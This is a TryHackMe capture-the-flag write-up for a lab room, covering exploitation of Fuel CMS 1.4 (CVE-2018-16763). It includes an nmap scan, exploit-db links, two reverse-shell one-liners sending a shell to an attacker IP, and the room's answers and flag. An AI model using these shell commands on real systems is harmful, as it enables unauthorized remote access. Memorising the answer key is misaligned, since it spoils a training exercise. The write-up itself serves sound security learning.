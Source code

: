# Try Hack Me - Vulnerability Capstone
##### Apply the knowledge gained throughout the Vulnerability Module in this challenge room.

## Task 1 - Introduction 

Summarise the skills learnt in this module by completing this capstone room for the "Vulnerability Research" module.
Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public.
It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.
```
Let's get hacking
> No answer needed
```

## Task 2 - Exploit the Machine (Flag Submission) 

Deploy the vulnerable machine attached to this by pressing the green "Start Machine" button. It is recommended that you use the TryHackMe AttackBox to complete this room.

Allow five minutes to pass before attempting to attack the vulnerable machine MACHINE_IP

```
sudo nmap -v -sS -sC -sV 10.10.254.89

PORT   STATE SERVICE VERSION                                                                                                 
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                
| ssh-hostkey:                                                                                                                      
|   3072 5d:af:e8:dc:1c:b0:38:8f:4e:1d:a7:47:f4:51:27:5a (RSA)
|   256 bb:53:81:a2:9c:2d:24:0e:f3:bc:a9:a1:13:1d:ec:74 (ECDSA)
|_  256 bf:4b:91:59:f1:fa:a5:86:32:6d:ab:4e:06:3e:44:bf (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to FUEL CMS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Fuel CMS 1.4
https://www.exploit-db.com/exploits/49487
https://www.exploit-db.com/exploits/50477
rce1.py
nc -lnvp 4444
# nc -e /bin/bash 10.13.25.242 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.25.242 4444 >/tmp/f
cd /home/ubuntu
ls
cat flag.txt
THM{ACKME_BLOG_HACKED}
```

```
Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.
> No answer needed
```

```
What is the name of the application running on the vulnerable machine?
> Fuel CMS
```

```
What is the version number of this application?
> 1.4
```

```
What is the number of the CVE that allows an attacker to remotely execute code on this application?Format: CVE-XXXX-XXXXX
> CVE-2018-16763
```

```
Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)
> No answer needed
```

```
What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.
> THM{ACKME_BLOG_HACKED}
```